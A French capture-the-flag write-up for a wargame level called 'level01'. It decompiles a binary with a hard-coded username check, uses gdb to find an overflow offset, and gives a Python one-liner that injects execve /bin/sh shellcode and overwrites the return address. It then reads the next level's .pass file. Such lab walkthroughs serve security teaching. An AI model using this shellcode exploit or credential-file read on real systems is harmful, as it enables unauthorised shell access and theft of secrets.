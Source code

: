 En decompilant le programe on decouvre deux fonction et une variable global user :

```c
char user[256];
verify_user_name();
verify_user_pass(const void *a1);
```

La premiere fonction (verify_user_name) check si la variable global char user contient dans ces 7 premier charactere le mot "dat_wil"

```c
int verify_user_name(){
	puts("verifying username....\n");
	return memcmp(user, "dat_wil", 7) != 0;
}
```

Si oui alors la fonction (verify_user_pass) est executer et check un pwd.

```c
int verify_user_pass(const void *a1){
	return memcmp(a1, "admin", 5) != 0;
}
```

Quoi qu'il ce passe le programe ce ferme apres ce check.


Du coup on lance gdb pour voir si on peux faire segfault le programe.

On arrive a faire segfault le programe sur le password sur l'adresse __0x37634136__

On trouve donc un offset de 80.

on cherche ensuite l'adresse de la variable __user__ dans gdb avec __info var__.
On obtient donc l'adresse __0x0804a040__.

on creer ensuite un one liner python:

> (python - c 'print "dat_wil" +  "[shellcode]" + "\n" + "A" * [offset] + "[variable address + 7]"'; cat -) | ./binary

ce qui donne: 

```bash
python -c 'print "dat_wil" + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\n"  + "A" * 80 + "\x47\xa0\x04\x08"'; cat -) | ./level01
```

la partie avant le __\n__ sert a remplir la variable __user__ et le reste a overflow le password pour qu'il accede au shell code depuis l'adresse + 7 (pour le mot "dat_wil") de la variable __user__.

Une fois cette ligne lance il nous reste plus cas recuperer le flag comme suit:

```bash 
cat /home/users/level02/.pass
```